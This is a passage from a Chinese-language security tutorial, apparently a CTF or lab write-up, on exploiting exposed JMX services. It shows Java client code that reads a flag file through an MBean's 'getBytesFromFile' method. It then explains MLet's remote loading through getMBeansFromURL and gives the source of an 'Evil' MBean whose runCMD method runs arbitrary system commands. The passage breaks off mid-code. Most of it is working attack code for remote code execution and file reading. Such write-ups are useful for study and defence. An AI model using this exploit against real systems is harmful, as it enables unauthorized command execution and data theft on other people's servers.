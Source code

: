 ```java
        "setManagedResource",
        new Object[]{"", "objectReference"},
        new String[]{Object.class.getName(), String.class.getName()}
    );

    byte[] bytes = (byte[]) con.invoke(objectName,
                                       "getBytesFromFile",
                                       new Object[]{"E:/flag"},
                                       new String[] {String.class.getName()});
    System.out.println(new String(bytes));
    try {
        con.unregisterMBean(objectName);
    } catch (InstanceNotFoundException e) {
    }
}
```

### MLet

`javax.management.loading.MLet`是一个MBean，其实现了`MLetMBean`接口

看一下这个类的描述

> Allows you to instantiate and register one or several MBeans in the MBean server
> coming from a remote URL. M-let is a shortcut for management applet. The m-let service does this by loading an m-let text file, which specifies information on the MBeans to be obtained. The information on each MBean is specified in a single instance of a tag, called the MLET tag. The location of the m-let text file is specified by a URL

支持远程加载MBean

```java
Loads a text file containing MLET tags that define the MBeans to
be added to the MBean server. The location of the text file is specified by
a URL. The MBeans specified in the MLET file will be instantiated and
registered in the MBean server.
public Set<Object> getMBeansFromURL(URL url)
```

连接到目标JMX服务，创建MLet实例并调用其`getMBeansFromURL`，JMX服务会下载MLet文件中引用的JAR文件，并注册JAR中的MBean

```java
public interface EvilMBean {
    public String runCMD(String cmd);
}
```

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Evil implements EvilMBean {
    @Override
    public String runCMD(String cmd) {
        try {
            Process proc = Runtime.getRuntime().exec(cmd);
            StringBuilder result = new StringBuilder();
            BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                result.append(line).append("\n");
            }
            reader.close();
            return result.toString();
        } catch (Exception e) {
            throw new RuntimeException(e);
```